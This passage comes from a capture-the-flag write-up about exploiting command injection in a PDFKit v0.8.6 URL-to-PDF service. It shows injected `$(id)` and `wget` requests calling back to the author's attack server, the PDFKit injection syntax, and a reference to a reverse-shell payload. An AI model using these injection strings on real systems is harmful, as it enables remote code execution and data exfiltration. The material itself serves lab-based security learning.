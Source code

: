 It requested the page and displayed the response in a PDF. 

I tried using the functionality to execute code on the server. I first tried adding a semicolon and a command to the URL to convert, but that failed. Next, I tried sending a command in `$()`, this worked. I requested that it convert `http://10.10.14.71/aaa?$(id)` to PDF. The request sent to my server contained information about the user running the application.

```bash
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.76.92 - - [26/Nov/2022 16:22:10] "GET / HTTP/1.1" 200 -

10.129.76.92 - - [26/Nov/2022 16:23:44] code 404, message File not found
10.129.76.92 - - [26/Nov/2022 16:23:44] "GET /aaa;wget%20http://10.10.14.71/rce HTTP/1.1" 404 -


10.129.76.92 - - [26/Nov/2022 16:25:27] code 404, message File not found
10.129.76.92 - - [26/Nov/2022 16:25:27] "GET /aaa?uid=1001(ruby)%20gid=1001(ruby)%20groups=1001(ruby) HTTP/1.1" 404 -
```

I spent some time trying to exploit it, but I failed to send any commands containing a space. I tried to get around it, but I did not find anything that worked.

I ran `exiftool` on a generated PDF. 

```bash
$ exiftool ~/Downloads/r7uwoyi4vsnjt6no6opgdpqokqwpme34.pdf
ExifTool Version Number         : 12.51
File Name                       : r7uwoyi4vsnjt6no6opgdpqokqwpme34.pdf
Directory                       : /home/ehogue/Downloads
File Size                       : 11 kB
File Modification Date/Time     : 2022:11:27 08:02:36-05:00
File Access Date/Time           : 2022:11:27 08:02:53-05:00
File Inode Change Date/Time     : 2022:11:27 08:02:36-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

It told me that the PDF was generated with [PDFKit v0.8.6](https://pdfkit.org/). I looked for vulnerabilities in that version and [found one](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) that was similar to what I was already trying. 

Instead of using "$(command)" to execute some code, I had to use "#{'%20\`command\`'}"

I tried the example exploit from snyk, sending a sleep of 5 seconds and it worked. The page got delayed by 5 seconds. So I knew I could get code execution with it. 

I generated a base64 payload to get a reverse shell. 
